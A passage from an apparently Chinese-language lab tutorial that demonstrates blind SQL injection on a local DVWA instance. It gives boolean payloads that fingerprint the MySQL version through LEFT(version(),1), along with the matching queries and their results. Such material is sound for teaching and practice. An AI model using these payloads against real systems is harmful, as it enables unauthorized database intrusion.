 url解码

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and 1=2 and '1'='1&Submit=确定
```

##测试数据库版本,有数据说明数据库版本为5.0


http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%20left(version(),1)=5%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
ID: 1' and left(version(),1)=5 and '1'='1
First name: admin
Surname: admin
```

url解码

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and left(version(),1)=5 and '1'='1&Submit=确定
```

mysql中查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and left(version(),1)=4 and '1'='1';
Empty set (0.00 sec)

mysql>

mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and left(version(),1)=5 and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>
```

说明mysql版本是以5打头的。


###left()函数

用法

left(str, length)

返回字符串str的最左面len个字符。

```
mysql> select LEFT('www.mxnet.io', 3);
+-------------------------+
| LEFT('www.mxnet.io', 3) |
+-------------------------+
| www                     |
+-------------------------+
1 row in set (0.00 sec)

mysql> 
```
